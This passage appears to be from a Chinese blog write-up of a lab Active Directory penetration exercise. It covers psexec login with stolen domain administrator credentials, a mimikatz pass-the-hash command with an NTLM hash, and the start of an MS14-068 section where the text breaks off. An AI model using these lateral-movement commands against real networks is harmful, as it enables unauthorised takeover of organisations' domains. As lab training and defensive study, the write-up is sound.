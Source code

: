 

![](https://img-blog.csdnimg.cn/20191218131705900.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20191218131606230.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### psexec攻击



我们已经获得了域管理员 god/administrator 的账号密码，我们现在可以使用该域管理员账号密码利用 psexec 登录域内任何一台开启了admin$共享(该共享默认开启) 的主机。



注：由于提示需要修改密码，所以已将 god/administrator 的密码改为 Password@ 。



```
psexec.exe \\192.168.52.138 -u god\administrator -p Password@ cmd
```




![](https://img-blog.csdnimg.cn/20191223220349826.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



但是在连接 Server2003服务器 的时候出了点小问题，提示服务没有及时响应启动或控制请求。



![](https://img-blog.csdnimg.cn/20191223001824160.png)



### 哈希传递攻击



在域环境内，只有获得了**域管理员**的哈希才可以攻击。这里假设我们得到了域管理员administrator的哈希，但是没有得到明文密码。在这里我们就可以用哈希传递攻击了。



在前面获得了域管理员 administrator 的NTLM哈希为：c456c606a647ef44b646c44a227917a4



```
sekurlsa::pth /user:administrator /domain:"god.org" /ntlm:c456c606a647ef44b646c44a227917a4
```




![](https://img-blog.csdnimg.cn/20191223222211802.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### MS14-068



MS14-068漏洞适用于当我们获得了普通域用户的哈希，域控存在MS14-068漏洞的场景。我们现在想利用获得了普通域用户哈希去访问域控。
